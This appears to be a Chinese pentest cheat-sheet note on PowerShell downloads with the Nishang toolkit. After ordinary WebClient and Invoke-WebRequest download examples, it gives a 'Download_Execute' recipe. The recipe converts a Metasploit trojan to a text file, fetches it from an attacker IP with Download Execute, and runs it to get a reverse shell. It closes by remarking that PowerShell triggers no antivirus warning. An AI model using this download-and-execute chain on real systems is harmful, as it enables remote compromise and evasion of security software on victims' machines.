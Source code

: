 ```python
```



###### powershell下载文件(nishang)

```python
$client = new-object System.Net.WebClient
$client.DownloadFile('#1', '#2')
#1是需要下载文件的url
#2是保存为本地文件的路径，包括文件名
例如：
$client.DownloadFile('https://www.2cto.com/net/201611/562900.html', 'D:/562900.html')


# 或者这个方法

$src = 'https://www.pstips.net/index.php'
$des = "$env:temp\index.php"
Invoke-WebRequest -uri $src -OutFile $des
Unblock-File $des


# 下载完之后就可以用啦


## 下载执行       Download_Execute

下载文本文件，然后转换为可执行文件执行

利用exetotext.ps1把msf生成的木马端`msf.exe`更改为`msf.txt`文件
ExetoTxt c:msf.exe  c:msf.txt

然后输入以下命令，调用`Download Execute`脚本下载并执行该文件
Download Execute http://192.168.110.128/msf.txt

这时，msf的监听端就会成功获得反弹回来的shell
```



> powershell是没有杀毒软件提示的